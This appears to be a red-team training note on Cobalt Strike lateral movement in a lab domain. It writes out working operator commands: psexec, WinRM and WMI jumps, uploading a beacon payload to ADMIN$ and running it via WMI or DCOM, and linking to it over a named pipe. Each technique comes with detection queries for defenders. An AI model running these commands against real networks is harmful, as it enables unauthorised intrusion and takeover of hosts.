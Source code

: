 # Lateral Movement

Moving between hosts in a domain helps access sensitive information and obtain new credentials. Using Aggressor, custom methods can be used for **jump** and **remote-exec**. Each of these strategies are compatible with User Impersonation techniques (e.g. use pth to impersonate a user and then jump to move laterally). Some of Seatbelt's commands can also be run remotely (e.g. ```execute-assembly Seatbelt.exe OSInfo -ComputerName=web```).

### jump

```jump [method] [target] [listener]``` spawns a beacon payload on the remote target (and connect to it if using a P2P listener).

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec/psexec64         x86/x64 Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm/winrm64           x86/x64 Run a PowerShell script via WinRM

### remote-exec

```remote-exec [method] [target] [command]``` executes the command on the target (not exclusive to lateral movement). Needs more manual work to manage the payload, but does offer a wider degree of control. 

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI

## Windows Remote Management

The **winrm / winrm64** methods return a high priv beacon running as the user interacting with the remote machine. SMB Beacon traffic blends in very well with expected traffic on Windows networks.

```jump winrm64 web.dev.cyberbotic.io smb``` - creates a Beacon that runs inside wsmprovhost.exe (the Host process for WinRM plug-ins), used whenever WinRM is used, legitimate or not. 

Admins can search for process start events, but get a lot of false positives. Best way to catch is to search PS script block logs for known payload artefacts, e.g. ```event.category: process and powershell.file.script_block_text: "$var_runme.Invoke([IntPtr]::Zero)"```

## PsExec

**psexec / psexec64** upload a service binary to the target, then create and starting a service to execute that binary. Beacons run as SYSTEM. 

```jump psexec64 web.dev.cyberbotic.io smb``` 

Catch by looking for 4697 service created events (which are rare, unless a service comes with other software). CS uses a random 7-char alphanumeric string for service name and binary filename. When setting the binPath for the service, it uses a UNC path to the ADMIN$ share: ```event.code: 4697 and winlog.event_data.ServiceFileName: \\\\*\\ADMIN$\\*.exe```

**psexec_psh** doesn't copy a binary to the target, but runs a PS 32-bit command. The pattern it uses by default is ```%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand ....```

```jump psexec_psh web smb```

## Windows Management Instrumentation (WMI)

WMI is part of remote-exec, which uses WMI's "process call create" to run a command on the target. Easiest way is to upload a payload to the target and run it via WMI. The process runs in an elevated context of the calling user.

    beacon> cd \\web.dev.cyberbotic.io\ADMIN$
    beacon> upload C:\Payloads\smb_x64.exe
    beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
    beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10  // connect to process

To catch, look for process create events where WmiPrvSE is the parent: ```event.category: process and event.type: start and process.parent.name: WmiPrvSE.exe```

# CoInitializeSecurity oddity

Beacon's implementation of WMI uses a [Beacon Object File](https://cobaltstrike.com/help-beacon-object-files), executed using the [beacon_inline_execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) function -- which can call the [CoInitializeSecurity](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) COM object, which sets the security context for the current process (and can only be called once per process). So future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process; WMI will then fail with access denied.

A workaround is to execute WMI from a different process. Use commands such as spawn and spawnas, or even execute-assembly with a tool such as SharpWMI: ```execute-assembly SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_x64.exe"```

## Distributed Component Object Model

Beacon can't interact over DCOM, so use a tool like [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), which can be integrated into the jump command.

    beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
    beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
    beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
    
DCOM is hard to detect since each "Method" works differently. For MMC20.Application, the spawned process will be a child of mmc.exe: ```event.category: process and event.type : start and process.parent.name: mmc.exe```. Processes started may also have the parent svchost.exe and command line arguments of -k DcomLaunch.

